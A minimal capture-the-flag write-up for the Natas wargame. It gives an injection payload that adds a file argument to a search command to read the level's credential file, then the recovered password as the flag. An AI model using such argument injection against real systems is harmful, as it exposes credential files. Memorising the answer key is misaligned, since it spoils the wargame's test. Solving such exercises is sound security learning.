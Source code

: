 # Injection

```
a /etc/natas_webpass/natas10 #
```

# Flag

```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```